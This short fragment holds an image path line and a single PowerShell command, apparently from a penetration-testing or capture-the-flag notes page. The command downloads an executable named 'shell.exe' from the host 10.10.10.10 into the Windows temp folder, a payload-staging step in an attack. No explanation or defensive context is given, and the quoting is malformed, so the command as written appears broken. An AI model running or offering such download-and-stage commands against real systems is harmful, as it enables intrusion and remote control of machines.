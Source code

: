 `powershell -c "Invoke-WebRequest" -Uri 'http://10.10.10.10:80/shell.exe' -OutFile 'c:\windows\temp\shell.exe'`